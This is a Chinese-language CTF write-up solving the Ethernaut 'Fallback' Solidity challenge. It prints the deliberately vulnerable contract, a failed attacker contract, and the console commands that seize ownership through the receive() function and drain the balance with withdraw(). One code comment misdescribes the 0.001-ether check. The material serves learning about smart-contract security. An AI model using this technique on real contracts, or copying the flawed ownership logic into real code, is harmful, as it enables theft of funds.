

# Fallback

## 要求:
```txt
仔细看下面的合约代码.

通过这关你需要

获得这个合约的所有权
把他的余额减到0
  这可能有帮助

如何通过与ABI互动发送ether
如何在ABI之外发送ether
转换 wei/ether 单位 (参见 help() 命令)
Fallback 方法
```


## 代码分析:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether); // 发送的token不能小于0.001 ether
        contributions[msg.sender] += msg.value;
        // 这里更改了owner权限
        if (contributions[msg.sender] > contributions[owner]) { 
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        // owner可以转走所有的余额
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        // 接收到token的时候，有个判断，这里可以更改owner
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

按照要求，有2个函数可以获取到合约的所有权。
分别是2个`payable`函数。但是默认的`receive`函数，需要判断`contributions[msg.sender]>0`

这里就有2个攻击点:
1:我们需要先调用`contribute`函数，贡献一点wei.

然后调用一个send活着transfer函数，就能获取到owner。最后调用`withdraw`清空balance.

2: 在`constructor`中:合约的部署者拥有`contributions[msg.sender] = 1000 * (1 ether);`，因此我们只要在`contribute` 贡献的token大于这个就行了。
但是呢，先做有一个问题，`require(msg.value < 0.001 ether);`,每次只能小于0.001 ether，需要经过多轮才能完成定时1000 ether。

```js
web3.utils.toWei('0.001','ether');

1000000000000000

await contract.contributions(await contract.owner()).then(v => v.toString())


1000000000000000000000
```


因此最终决定使用路径1


## 使用remix作为IDE



## 最开始的错误尝试

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract FallBackPwn{
    address public _target;
    address public owner;
    event Log(uint value);
    constructor(address target_) payable {
        _target=target_;
        owner = msg.sender;
    }

    function pwn()public{
        // first call contribute to send some wei
        address(_target).call{value:1}(abi.encodeWithSignature("contribute()"));

        // then call the default recive callback
        // to take ownership
        address(_target).call{value:1}("");
        
        // call the witehdraw
        address(_target).call(abi.encodeWithSignature("withdraw()"));
    }
    receive() external payable {
        emit Log(msg.value);
        payable(owner).call{value:msg.value}("");
    }
}
```

错误原因：
因为目标合约是设置`msg.sender`为新的`owner`.但是我是写了一个新的合约。因此这个合约调用目标合约的时候，实际的`msg.sender`其实是这个新合约的地址。

## 解题

首先通过 `contribute`贡献一点token.
`await contract.contribute({value:1})`

```js
await contract.getContribution().then(v=>v.toString())
'1'
```

然后通过通过转账调用默认的`receive`函数。
我之前不这么调用就是不知道调用那个发送的函数，最后经过学习，才知道了tx也有全局变量`sendTransaction`


`await contract.sendTransaction({value:1})`
哎此时再去看,已经成功设置了owner。
```js
await contract.owner()
'0x4F6057B98A87ce5995BFEd7489217605cCF2dB88'
await player
'0x4F6057B98A87ce5995BFEd7489217605cCF2dB88'
```
最后调用`withdraw()`转账就ok。

`await contract.withdraw()`